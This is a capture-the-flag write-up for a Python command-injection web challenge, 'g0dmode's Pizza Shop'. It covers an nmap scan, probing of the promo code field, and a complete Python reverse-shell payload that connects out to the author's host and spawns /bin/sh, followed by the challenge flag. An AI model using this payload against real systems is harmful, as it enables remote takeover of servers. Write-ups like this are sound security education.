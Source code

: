 ```yaml
---
title: "Deloitte CTF Quals 2019: g0dmode's Pizza Shop 🍕"
slug: deloitte-godmod-pizza
date: 06/11/2019
---
```


*g0dmode's Pizza Shop* 🍕 was a task labelled web and worth 300 points. It is
a standard Python command injection. I felt like it was worth way too much
points for the difficulty.

![Task Description](/assets/pizza-god/intro.png)

As always, quick nmap scan:

```
$ nmap 3.9.188.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:57 GMT
Nmap scan report for ec2-3-9-188-161.eu-west-2.compute.amazonaws.com (3.9.188.161)
  Host is up (0.0037s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  80/tcp   open     http
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We have a web application on port 80:

![Web Application](/assets/pizza-god/web_app.png)

The challenge description makes it clear that we have to inject some command
into the promo code field of the order page. We can totally ignore the
account mechanism.

![Order Page](/assets/pizza-god/order.png)

Let's try with a very simple payload: a single quote `'`. We get back an error:

![Order Page](/assets/pizza-god/crash.png)

The error looks like a Python quote parsing issue. My guess is that the backend
looks something like:

```
promo_code = ord('<USER_INPUT>')
```

If my guess is correct, the payload `') #` should produce no error, as we just
complete the function call and transform the end of the line into a comment
like so:

```python
promo_code = ord('') #')
```

My guess turned to be correct. So I decided to inject some reverse shell
payload. A friend told me to take a look at
[this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Let's tweak their Python payload a little bit:

```python
'); import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("geographer.fr",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); #
```

We get a root shell immediately:

![Root shell](/assets/pizza-god/root.png)

Final flag: `dctf{python_code_injection_via_unsafe_exec_call_oops1e}`.